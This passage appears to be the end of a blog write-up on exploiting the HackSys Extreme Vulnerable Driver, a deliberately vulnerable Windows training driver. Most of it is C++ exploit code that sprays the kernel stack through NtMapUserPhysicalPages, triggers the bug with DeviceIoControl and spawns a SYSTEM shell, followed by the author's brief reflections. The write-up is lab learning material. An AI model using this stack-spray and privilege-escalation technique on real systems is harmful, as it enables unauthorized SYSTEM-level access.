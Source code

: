 ```cpp
	printf("[*] Spraying stack and triggering vulnerability...\n");
	NtMapUserPhysicalPages(&Zero,
		1024,
		(PBYTE)&Page_Frame_Numbers);

	DWORD Dummy_Bytes = 0;

	// Trigger bug
	DeviceIoControl(HEVD,
		0x22202F,
		&Input_Buffer,
		sizeof(Input_Buffer),
		NULL,
		0,
		&Dummy_Bytes,
		NULL); 

	printf("[*] Spawning nt/authority system cmd.exe shell...\n");
	Spawn_Shell();

	return 0;
}
```

![](/assets/images/AWE/wediditbb.PNG)

## Conclusion
Figuring out how to deal with that `PageFrameNumbers` parameter of the `NtMapUserPhysicalPages` API was really hard for me as someone who is new to C++. In Python and Powershell it looked really straightforward but was definitely more cumbersome in C++. Couldn't have done this one without the tons of the help I got from the mentioned blog post authors, thanks a ton to them, I'd have been lost without their content. Thanks again for reading!







